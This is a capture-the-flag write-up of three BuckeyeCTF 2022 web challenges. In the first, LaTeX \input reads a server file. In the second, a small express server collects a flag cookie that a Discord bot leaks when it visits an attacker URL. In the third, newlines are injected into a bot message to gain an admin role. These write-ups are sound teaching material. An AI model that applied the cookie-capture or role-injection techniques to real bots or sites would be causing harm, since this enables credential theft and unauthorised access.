









# Web challenges
## Table of contents
- [textual (214 solves)](./web.md#textual)
- [owl (153 solves)](./web.md#owl)
- [quizbot (69 solves)](./web.md#quizbot)

### textual

```
I made a LaTeX to HTML converter. Why? Because I believe in more than WYSIWYG. Don't worry though, it's totally safe!

https://textual.chall.pwnoh.io
```
**Attachements :**
- [textual.zip](https://github.com/cscosu/buckeyectf-2022-public/tree/master/web/textual/deploy) (with a fake flag in `flag.tex`)

#### Solution
We first click on the link provided, to discover the website.<br>

Ok, so it is a compiler of LaTeX. We can run it by doing `CTRL+S`

Pretty cool. Now, what about the attached file ?<br>
We can unzip the textual.zip file. It contains all of the source code of the website. We can also observe that there is a `flag.tex` in the app's root.<br>
We can think that we want to read the `flag.tex` thanks to the latex compiler.<br>
A quick research on Internet leads us to `\input{filename}` function.<br>
We know the flag location thanks to the Dockerfile :
```dockerfile
...
WORKDIR /home/ctf/app
COPY package* ./
RUN npm i
RUN cp /bin/sh /bin/sh-orig
COPY . ./
...
```
So we know that the `flag.tex` is under `/home/ctf/app/flag.tex`<br>
So we try to `\input` :

Here's the flag !
<br><br><br><hr>

### owl
```md
This bird never goes ANYWHERE without its flag, but is your site hootin' enough? `owl#9960`
```
**Attachements :**
- [index.js](https://github.com/cscosu/buckeyectf-2022-public/blob/master/web/owl/index.js)

#### Solution
We can see in the challenge description that owl is a Discord bot. After a fast check, we can see that owl is on the official server of the CTF. Well, we know it's here. But now let's see `index.js`, that is surely the bot's source code.<br>
We open index.js, and we see that it is indeed the bot's source code. So, what does the bot ?<br>
First, we check what we can do as a user. We can see that the bot checks out when a user sends a message. Well, that's the only thing we can trigger, so let's dive into this function (line 61 to 78)<br>
We can only send message in DMs otherwise the bot won't read it. It seems like this :
```js
let url = /https?:\/\/(www\.)?([-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b)([-a-zA-Z0-9()@:%_\+.~#?&//=]*)/i
let match = msg.content.match(url);
```
checks if our message is an url. But what the bot actually does with this URL ?<br>
It calls the `scout` function. So let's dive into it.<br>
The bot will only do something if the url contains the word `owl` :
```js
if(!url.includes("owl")) {
    resolve("hoot... hoot hoot?");
    return;
}
```
Then it sets a cookie containing the flag and visits the webpage.
```js
browser.setCookie({
    name: "flag",
    domain: host,
    value: process.env.FLAG
});

browser.fetch(url).then(r => {
    return r.text();
})
```
The rest of the function doesn't bother us much, because we just have found the solution.<br>
In fact, if the bot goes to a URL with a cookie containing the flag, we have to set up a little HTTP server (with express.js for example) and get the flag when the bot visits our URL !<br>
So, let's setup an express.js server.<br>
```shell
npm init && touch index.js && npm i express && npm i cookie-parser
```
This little shell command will setup everything we need to setup the server. We now just have to write the code to retrieve the flag cookie.<br>
And here is the code in `index.js` :
```js
const express = require("express");
const cookieParser = require("cookie-parser")
const app = express();
const port = 8081; //Port of the webserver
app.use(cookieParser());

// sets up a get on /owl to have owl in the URL
app.get("/owl", async (req, res, next) => { 
    console.log(req.cookies); //works thanks to cookie-parser library to have cookies shown in a json
    res.send("OK");
});

// launch the webserver on the previously defined port
app.listen(port, () => {
    console.log(`app launched on port ${port}`);
});
```
A little `node index.js` will launch our webserver.<br>
Now, we just have to DM the bot with our url :<br>
`http://MACHINE_IP:PORT/owl`<br>
All we need to do now is to check our console !<br>

<br><br><br><hr>

### quizbot
```
https://discord.gg/q4qtnrKd
```
**Attachements :**
- [bot.py](https://github.com/cscosu/buckeyectf-2022-public/blob/master/web/quizbot/bot.py)

#### Solution
We see in the description that there is a Discord link. We're joining it.<br>
As we join we receive a message from a bot : `quizbot`. We can imagine that this CTF is another discord bot cracking.<br>
The message looks like this :<br>
<br>
We try to react with 👶 for example, and we can see that on the discord server we now have the role `Thoroughly research and solve the challenge`<br>
<br>
Ok, so that's great. It's fun. Let's try `!quiz` :<br>
<br>
Ok... Well strange but let's do the example to test :<br>
<br>
Right, we can see that the bot replied with our first response, and that we have a new role on the Discord server :<br>
<br>
Let's now check the attachement `bot.py` that should be the source code.<br>
Well yeah it is. So, as the other bot, let's see what's vulnerable.<br>
At first, I had a struggle to find what to do. There is no flag, no hidden flag file, nothing related to a flag.<br>
But.. when we go back to the Discord server, we can see that some users have the admin role, even though they aren't admin on the official CTF Discord server...<br>
So we can guess that it has something to do with the roles. So... what can give us a role that we choose ?<br>
In fact, so, in the source code, we can search for the functions that gives a member a role : `member.add_roles(role)`<br>
And there is only on the event `raw_reaction_add` that a role name is manipulated by an input and not hard-coded : 
```python
if str(emoji) == line_reaction:
    role = discord.utils.get(guild.roles, name=role_name)
    if member:
        await member.add_roles(role)
```
And how do we get here ?
```python
if (
    message.author != client.user
    or user == client.user
):
    return

lines = message.content.split("\n")[1:]
for line in lines:
    try:
        line_reaction, role_name = line.strip().split(" ", 1)
```
So, we need to have a message, only sent by the bot, that contains line break(s) and that have the pattern :<br>
`:emoji: role name`<br>
So, how can we make the bot writing something that we personally want ?<br>
Remember `!quiz` command ? It writes the first answer of the quiz.<br>
What is we put some line break and a pattern so we can react to this message with the emoji we want and get a role like.. the admin role ?<br>
So let's try...<br>
<br>
So we have a message that has the template we want. What if we try to react to this message with 👀 ?<br>
<br>
And now, back onto the Discord server :<br>
<br>
We now have access to a new private channels reserved to admins !<br>
<br>
That has a pinned message...<br>
<br>
And there you go !

